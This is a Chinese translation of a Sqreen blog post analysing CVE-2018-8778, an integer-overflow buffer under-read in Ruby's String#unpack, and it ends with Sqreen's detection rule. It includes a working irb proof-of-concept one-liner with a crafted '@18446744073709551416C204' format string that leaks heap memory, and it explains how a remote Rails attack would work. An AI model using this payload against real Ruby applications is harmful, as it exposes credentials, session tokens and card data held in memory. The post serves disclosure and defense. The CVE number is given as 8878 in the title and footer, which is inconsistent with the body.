


# 深入了解 CVE-2018-8778 或者为什么整数溢出仍然是一件事！

> 原文：<https://dev.to/sqreenio/an-in-depth-look-at-cve-2018-8878-or-why-integer-overflows-are-still-a-thing-1n01>

一个新的令人兴奋的弱点(是的，对不起，我们很容易对这些事情感到兴奋！😜)已经用 Ruby 发布了。CVE-2018-8778 是由`String#unpack`触发的缓冲区欠读。在本文中，我们将深入探讨该漏洞，展示如何利用它以及如何缓解它。

## 什么是缓冲区欠读？

我们所做的几乎所有有意义的计算都是在存储在内存中的数据结构(对象)上完成的。

每个对象在内存中都有定义的大小和字段布局。因此，查看内存的人可以看到我们的对象被展平为给定长度的二进制数据(0 & 1)。这就是我们所说的缓冲区(内存区域)。作为开发人员，当操作我们的对象时，我们应该在给定的缓冲区内工作，而不应该在对象之前/之后读/写。

Ruby 在所谓的堆上分配数据。那是内存空间(另一个是堆栈)。几乎所有的 Ruby 物体都会落在那里。

因此，缓冲区欠读是一个漏洞，使得攻击者能够访问目标缓冲区之前的内存位置。这通常发生在指针或其索引递减到缓冲区之前的位置时。

这是一个严重的漏洞，但严重性实际上取决于您的应用程序处理的数据。这可能会导致敏感信息泄露，甚至可能导致系统崩溃。您可能会读取令牌、数据库凭证、会话 cookies 等数据，甚至是正在传输的信用卡号。

## 那么 CVE 到底是什么-2018-8778？

[这里是漏洞](https://www.ruby-lang.org/en/news/2018/03/28/buffer-under-read-unpack-cve-2018-8778/)的公告。为了更好地理解它，让我们首先深入到修复提交的 Ruby 源代码[这里](https://github.com/ruby/ruby/commit/d02b7bd864706fc2a40d83fb6014772ad3cc3b80)(是的，这是 SVN 的修订版，Ruby 的历史早于 Git！).

该漏洞位于`String#unpack`方法内部。这个方法根据提供的字符串格式解码`str`，返回每个提取值的数组(你可以在 [RubyDoc](https://ruby-doc.org/core-2.5.0/String.html#method-i-unpack) 上了解更多)。格式字符串由一系列单字符指令(数字、“*”、“_”或“！”组成)并可以通过说明符`@`指定被解析数据的位置。这就是问题所在。

从[非回归测试](https://github.com/ruby/ruby/commit/d02b7bd864706fc2a40d83fb6014772ad3cc3b80#diff-66ede7a20d01949feaa42bf3f6ba2a5aR555)中，我们可以看到只需要使用特定的格式来触发它。这个格式字符串实际上就像一个迷你程序。字符串“@42C10”解码为:跳过 42 个字节，然后解码 10 个 8 位整数。

这里的问题是偏移量验证得很差。如果用`@`传递一个有效数字，该数字将被视为负值，并且`unpack`跳过一个负的字节数。这是发生缓冲区外读取的地方。因此，攻击者可以利用这一点来读取堆上的敏感数据。

验证不佳的偏移量是一个经典错误，称为[整数溢出](https://en.wikipedia.org/wiki/Integer_overflow)。当使用有符号整数，试图解码一个巨大的无符号整数值时，解码的值将是一个负数。这给了我们一种获得负偏移的方法。与此相关的是，阿丽亚娜 5 号的第一次坠毁是由这个……[来源](https://hownot2code.com/2016/09/02/a-space-error-370-million-for-an-integer-overflow/)引发的。

## 这里这个整数溢出是怎么发生的？

`String#unpack`实际上是在 C 编程语言的 Ruby 核心源代码中定义的。正如我们在[修复提交](https://github.com/ruby/ruby/commit/d02b7bd864706fc2a40d83fb6014772ad3cc3b80#diff-1d0f88fabe331fcc38c1adce12c697b0L1130)中看到的，用字符串(C 中的 a `char *`)表示的偏移量必须被转换成一个整数值。为此，Ruby 使用了一个名为`STRTOUL`的宏，它反过来调用`ruby_strtoul`(它们在 [ruby.h](https://github.com/ruby/ruby/blob/46b391ff731d66883082e6347d5fc4e54386d7bd/include/ruby/ruby.h#L2189) 中定义)。顾名思义，这将输出一个无符号长整数。

```
unsigned long ruby_strtoul(const char *str, char **endptr, int base); 
```

Enter fullscreen mode Exit fullscreen mode

直到这里，没有问题，字符串`“18446744073709551416”`被正确解码为长整数`18446744073709551416`。然而这个值存储在`len`中，它被[声明](https://github.com/ruby/ruby/blob/46b391ff731d66883082e6347d5fc4e54386d7bd/pack.c#L267)为`long`，一个有符号的数。这样做将无符号数转换为有符号数，并且`18446744073709551416`变为`-200`。

以下是令人不快的部分:

```
unsigned long ruby_strtoul(const char *str, char **endptr, int base);
#define STRTOUL(str, endptr, base) (ruby_strtoul((str), (endptr), (base)))
// ....
static VALUE
pack_pack(int argc, VALUE *argv, VALUE ary)
{
// ...
    long len, idx, plen;

// ....

    else if (ISDIGIT(*p)) {
        errno = 0;
        len = STRTOUL(p, (char**)&p, 10);
        if (errno) {
        rb_raise(rb_eRangeError, "pack length too big");
        }
    } 
```

Enter fullscreen mode Exit fullscreen mode

## 你是如何利用这个漏洞的？

利用实时应用程序中的漏洞的第一步是进行小型概念验证(PoC)。让我们首先尝试从`irb`交互 shell 中读取内存。我们将使用漂亮的 [hexdump 宝石](https://github.com/postmodern/hexdump)来展示一些对我们人类来说更容易阅读的东西。事不宜迟，这里有一个可以做到这一点的一行程序。

[](https://i2.wp.com/blog.sqreen.io/wp-content/uploads/2018/03/Heap-Space-1.png?ssl=1)T3】

```
$ irb

irb(main):145:0> leak = 200; size = 2**64-1 - leak + 1 ; puts size ; "BUFF".unpack("@#{size}C#{leak+4}").map { |i| i&.chr }.join.hexdump
18446744073709551416

Offset    Hex dump                                          ASCII dump
-------------  -----------------------------------------------  ------------------
00000000  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000010  00 00 00 00 00 00 00 00 65 08 93 20 00 00 00 00  |........e.. ....|
00000020  c0 7d 8c 50 97 7f 00 00 53 41 56 45 5f 48 49 53  |.}.P....SAVE_HIS|
00000030  54 4f 52 59 00 00 00 00 00 00 00 00 00 00 00 00  |TORY............|
00000040  65 40 90 00 00 00 00 00 c0 7d 8c 50 97 7f 00 00  |e@.......}.P....|
00000050  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000060  00 00 00 00 00 00 00 00 65 40 90 00 00 00 00 00  |........e@......|
00000070  c0 7d 8c 50 97 7f 00 00 00 00 00 00 00 00 00 00  |.}.P............|
00000080  00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
00000090  65 40 90 00 00 00 00 00 c0 7d 8c 50 97 7f 00 00  |e@.......}.P....|
000000a0  7f 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  |................|
000000b0  00 00 00 00 00 00 00 00 65 08 51 20 00 00 00 00  |........e.Q ....|
000000c0  c0 7d 8c 50 97 7f 00 00 42 55 46 46              |.}.P....BUFF| 
```

Enter fullscreen mode Exit fullscreen mode

那我们在这里做什么？我们有一个泄漏大小的参数(`leak`)，我们计算这个巨大的数字，然后将它解码为一个负整数。然后，我们创建一个小缓冲区，并使用一个包含这两个值的格式字符串对其进行解包。我们实际上是说:跳到这个巨大的偏移量(最终是一个`-leak`字节)并读取`leak + 4`字节。

这将根据请求返回 204 个字节。

通过传递一个大整数作为 offset，我们在内存中 BUFF 开始之前往回走了 200 个字节，然后读取 204 个字节(使用生成的格式字符串:`@18446744073709551416C204`)。

作为健全性检查，我们可以在 ASCII 转储部分(BUFF)的末尾正确地看到我们应该工作的缓冲区的内容。如果 Ruby 不是易受攻击的，它就不应该在 BUFF 开始之前跳到读取内存。

我们如何从概念到实际的开发？我们首先需要找到一个运行在易受攻击的 Ruby(2 . 5 . 1 之前)应用程序上的应用程序，我们可以攻击它。一个 Ruby on Rails 应用程序会很好，因为我们可以远程攻击它，并且通常包含有趣的秘密。如果`format`参数处于攻击者的控制之下，这个 Rails 应用程序将需要一个`String#unpack`调用。`String#unpack`电话比你想象的更常见。它们通常用于解码来自其他地方的数据(例如，数据库驱动程序经常使用它)。因此，要知道您是否受到影响，您可能还需要查看您所有的依赖项源代码…

[T2】](https://i0.wp.com/blog.sqreen.io/wp-content/uploads/2018/03/Heap-Space-2.png?ssl=1)

如果我们有这样一个应用程序，只需从上面发送我们生成的恶意格式字符串，就能让我们从应用程序中提取尽可能多的数据。这允许我们读取&可能的话，提取存储在内存中的所有秘密(数据库凭证、令牌)，也可能是只通过应用程序传输的数据(客户信用卡号或并发请求的用户会话)。

## 建筑整治

当然，最简单的解决方法是简单地更新你机器上的 Ruby。不幸的是，在现实世界中，这并不总是能够快速实现的。这一现实促使我们精心设计了一个解决方案，来保护所有 CVE-2018-8778 的用户，即使他们还不能更新他们的 Ruby 版本。

两个主要要求推动了 Sqreen 新保护的发展。

*   首先，我们不能用误报来破坏用户的应用程序。
*   其次，对性能的影响应该几乎看不见。

在查看了几个选项之后，我们决定最好的解决方案是“简单地”挂钩`String#unpack`方法，并检查包含`@`的参数在格式字符串中不包含大的偏移量。这里的关键是确保这个格式字符串不是来自当前的请求参数。

所以我们实现的规则看起来有点像:

```
TWO_GIGABYTES= 2**31
return false unless format_string.include?('@')
return false unless user_parameters.include?(format_string)
offset = parse(format_string)
return offset > TWO_GIGABYTES 
```

Enter fullscreen mode Exit fullscreen mode

现在让我们看一个例子:

*   格式字符串`C10`在第一行停止处理未检测到攻击
*   格式字符串`@10c12`
    *   不在用户参数中在第二行停止未检测到攻击
    *   如果它来自用户参数(代码可能易受攻击)，我们检查偏移量大小 10 并停止处理没有检测到攻击
*   使用`@18446744073709551416C204`作为格式字符串，偏移量`18446744073709551416`大于 2**31 检测到攻击！

仅此而已。经过广泛的测试，我们将这个规则部署到我们的用户中。他们现在都可以抵御这个缓冲区读取不足的漏洞，并可以在适当的时候更新他们的 Ruby 版本。所有这一切都是在漏洞被披露和我们的客户得到全面保护之间的不到 21 小时内实现的。

这篇文章深入探讨了 CVE-2018-8878 或者为什么整数溢出仍然是一个问题！最早出现在 [Sqreen 博客|现代应用安全](https://blog.sqreen.io)。